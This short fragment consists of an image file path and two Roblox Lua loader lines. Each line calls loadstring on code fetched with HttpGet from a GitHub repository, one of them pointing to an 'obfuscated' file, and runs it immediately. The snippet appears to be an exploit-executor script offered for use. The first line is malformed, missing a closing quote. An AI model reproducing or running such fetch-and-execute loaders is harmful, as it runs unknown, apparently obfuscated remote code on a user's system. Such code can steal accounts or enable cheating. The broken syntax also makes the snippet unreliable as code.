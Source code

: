 loadstring(game:HttpGet("https://github.com/LordJupxz1234/sdafads/blob/main/whitelist.md))() 
loadstring(game:HttpGet("https://github.com/LordJupxz1234/obfuscated/blob/main/README.md"))() 
